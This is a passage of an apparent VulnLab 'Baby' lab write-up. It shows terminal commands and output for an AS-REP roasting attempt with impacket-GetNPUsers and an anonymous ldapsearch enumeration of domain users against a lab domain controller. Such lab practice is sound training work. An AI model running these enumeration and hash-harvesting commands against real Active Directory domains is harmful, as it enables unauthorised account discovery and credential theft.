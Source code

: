 ```
destiny@falcon:~/vulnlab.com/Baby-W$ impacket-GetNPUsers baby.vl/ -usersfile users.txt -dc-ip 10.10.95.143 -format hashcat -outputfile asreproast_hashes.txt 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

/usr/share/doc/python3-impacket/examples/GetNPUsers.py:165: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[-] User Jacqueline.Barnett doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Ashley.Webb doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Hugh.George doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Leonard.Dyer doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Connor.Wilkinson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Joseph.Hughes doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Kerry.Wilson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Teresa.Bell doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Caroline.Robinson doesn't have UF_DONT_REQUIRE_PREAUTH set
```

---

> Found in a Medium article that we can also use `ldapsearch` to perform user enumeration.

```
destiny@falcon:~/vulnlab.com/Baby-W$ ldapsearch -x -H ldap://10.10.95.143 -D '' -w '' -b "DC=baby,DC=vl" | grep sAMAccountName | awk -F: '{ print $2 }' |  awk '{ gsub(/ /,""); print }'
Guest
DomainComputers
CertPublishers
DomainUsers
DomainGuests
GroupPolicyCreatorOwners
RASandIASServers
AllowedRODCPasswordReplicationGroup
DeniedRODCPasswordReplicationGroup
EnterpriseRead-onlyDomainControllers
CloneableDomainControllers
ProtectedUsers
DnsAdmins
DnsUpdateProxy
dev
Jacqueline.Barnett
Ashley.Webb
Hugh.George
Leonard.Dyer
it
Connor.Wilkinson
Joseph.Hughes
Kerry.Wilson
Teresa.Bell
```
